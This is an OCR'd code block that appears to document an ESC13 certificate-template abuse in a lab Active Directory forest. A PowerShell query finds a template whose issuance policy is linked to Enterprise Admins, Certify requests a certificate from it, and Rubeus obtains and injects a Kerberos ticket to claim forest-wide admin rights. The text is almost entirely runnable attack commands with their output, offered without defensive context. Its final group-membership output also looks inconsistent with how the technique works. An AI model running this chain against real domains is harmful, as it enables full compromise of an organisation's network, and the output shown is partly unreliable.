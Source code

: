```bash
# Find templates with issuance policies linked to groups in essos.local
Import-Module ActiveDirectory

$templates = Get-ADObject -Filter 'objectClass -eq "pKICertificateTemplate"' -Properties msPKI-Certificate-Policy -SearchBase "CN=Configuration,DC=essos,DC=local"

foreach ($template in $templates) {
    if ($template.'msPKI-Certificate-Policy') {
        $policies = $template.'msPKI-Certificate-Policy'
        foreach ($policy in $policies) {
            $oid = Get-ADObject -Filter * -SearchBase "CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -Properties msDS-OIDToGroupLink | Where-Object {$_.msDS-OIDToGroupLink -and $policy -eq $_.'msPKI-Cert-Template-OID'}
            if ($oid.'msDS-OIDToGroupLink') {
                Write-Host "Template $($template.Name) linked to group: $($oid.'msDS-OIDToGroupLink')"
            }
        }
    }
}

Template ESC13Template linked to group: CN=Enterprise Admins,CN=Users,DC=essos,DC=local

# Perfect! ESC13Template is linked to Enterprise Admins

# Request certificate from vulnerable template
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC13Template

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\missandei
[*] Template                : ESC13Template
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 17

# Authenticate with certificate to gain Enterprise Admin group membership

Rubeus.exe asktgt /user:missandei /certificate:esc13.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[+] TGT request successful!

# The TGT now contains Enterprise Admins group membership!
# Verify with whoami /groups after using the ticket

Rubeus.exe ptt /ticket:doIFujCCBbagAwIBBaEDAgEWooIEwjCCBL5hggS6...

[*] Action: Import Ticket
[+] Ticket successfully imported!

# Now we have Enterprise Admin privileges in the forest
net group "Enterprise Admins" /domain

Group name     Enterprise Admins
Comment        Designated administrators of the enterprise

Members

-------------------------------------------------------------------------------
Administrator  missandei
```